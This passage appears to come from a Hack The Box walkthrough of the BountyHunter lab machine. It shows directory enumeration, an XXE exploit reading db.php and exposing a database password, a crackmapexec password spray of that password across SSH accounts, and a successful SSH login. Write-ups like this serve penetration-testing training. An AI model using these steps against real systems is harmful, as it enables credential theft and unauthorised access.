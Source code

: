 Now, once the exploit is working, let's start by enumerating the application files:  
```bash
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/index.php            (Status: 200) [Size: 25169]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/.                    (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
```
After we enumerate the files we can try to use our newly created exploit to read these files contents:  
```bash
[root@kali exploits ]$ python3 xee.py                                
xxe > db.php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
As we can see the file `db.php` contains some credentials.  
Now we can see if this server is affected by a password reuse vulnerability for the SSH service.  
At first let's build a list of valid users for this box using as a source the content of `/etc/passwd` once we have the users list we can give this list to `crackmapexec` and try to spary the password across all the system accounts:  
```bash
[root@kali BountyHunters ]$ crackmapexec ssh $TARGET -u system_users.txt -p 'm19RoAU0hP41A1sTsq6K' 
SSH         10.10.11.100    22     10.10.11.100     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
SSH         10.10.11.100    22     10.10.11.100     [-] root:m19RoAU0hP41A1sTsq6K Authentication failed.
SSH         10.10.11.100    22     10.10.11.100     [+] development:m19RoAU0hP41A1sTsq6K 
```
As we can see the newly discovered credentials are valid for the user `development`.  
Now we can ssh into this box using this cretential.  
```
[root@kali htb-walkthroughs (main ✗)]$ ssh -l development $TARGET
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 20 Jun 2022 12:37:18 PM UTC

  System load:           0.0
  Usage of /:            23.8% of 6.83GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             211
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1492


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```